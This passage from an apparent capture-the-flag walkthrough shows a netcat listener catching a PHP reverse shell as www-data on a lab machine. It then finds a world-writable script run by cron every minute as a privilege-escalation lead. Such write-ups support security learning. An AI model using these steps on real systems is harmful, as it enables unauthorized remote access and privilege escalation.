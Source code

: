 **Now for proper reverse shell:**

*   Using pentest monkey php reverse shell

*   Start listener:

```
crazyeights@es-base:~$ nc -lvp 1234
listening on [any] 1234 ...
```

![](/assets/images/dev/dc5.png)

**www-data shell:**
```
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.123] 37218
Linux 06502074cfda 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 17:13:03 up 11 min,  0 users,  load average: 0.04, 0.13, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

In Maintenance-Web-Docker in www/html:

```
130351 -rwxrwxrwx  1 root root  164 Sep 13 04:23 list.sh
130349 -rwxr-xr-x  1 root root  204 Sep 12 21:31 maintenance.sh
130341 -rw-r--r--  1 1000 1000  442 Oct 24 17:15 out.txt
```
We find this script which might be run using a cronjob:
```
$ cat list.sh
#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
```

The script is being run every minute, as can be seen by the output in out.txt:

```
$ cat out.txt
[SNIP]
Sat 24 Oct 2020 01:13:01 PM EDT
2
Sat 24 Oct 2020 01:14:01 PM EDT
3
```

